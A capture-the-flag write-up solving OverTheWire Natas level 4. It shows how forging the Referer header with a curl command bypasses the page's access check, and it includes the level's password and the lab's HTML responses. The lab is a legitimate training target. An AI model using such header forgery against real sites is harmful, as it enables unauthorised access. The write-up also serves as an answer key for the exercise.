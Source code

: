 ```yaml
---
title: Overthewire Natas Level 3 -> Level 4
date: '2022-04-20 20:35:00'
author: Michael
categories: [overthewire, overthewire-natas]
tags: [overthewire, natas, web]
---
```


Solution for the Overthewire.org [Natas level 3 -> Level 4](https://overthewire.org/wargames/natas/natas4.html){:target="\_blank"}

## Description

Username: natas4  

URL:      http://natas4.natas.labs.overthewire.org

---

## Solution

Visit the url `http://natas4.natas.labs.overthewire.org` in the browser and we get a prompt for login.

Use the username `natas4` and the password obtained from the previous challenge.

After logging in we get a message saying "Access disallowed".

![natas04 home page](/assets/img/overthewire/natas/natas04_home_page.png)

The message further goes on to say that authorized users need to come from "http://natas5.natas.labs.overthewire.org"

Checking the source code of the page does not give any new information.

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Going back to the message, how does the browser know what page we came from ? Information like that is passed in the `http header`.  
The Mozilla developer site is a good resource for checking what headers are available. [Mozilla Developer](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers). 

After reading through the headers we find what we are looking for.


```properties
Referer: The address of the previous web page from which a link to the currently requested page was followed.
```

The `Referer` header tells the page we visit where we came from.

So now we need to send a request to the natas4 page while setting our own `referer` value. We can do this using a command line tool `curl`.

`curl` is a tool for transferring data from or to a server and supports user authentication, cookies and setting header values.

User this curl command we get the password.

```
$curl --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/
```

* `curl` 
* `--user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ` --authentication using username:password format
* `--referer http://natas5.natas.labs.overthewire.org/` --set the referer header to the natas5 url
* `http://natas4.natas.labs.overthewire.org/` the url we are visting.


Since `curl` is a command line program we get the html source code back.

```html
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOf**************************
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```


Assuming the correct referer is set we get the password.
```
Access granted. The password for natas5 is iX6IOf**************************
```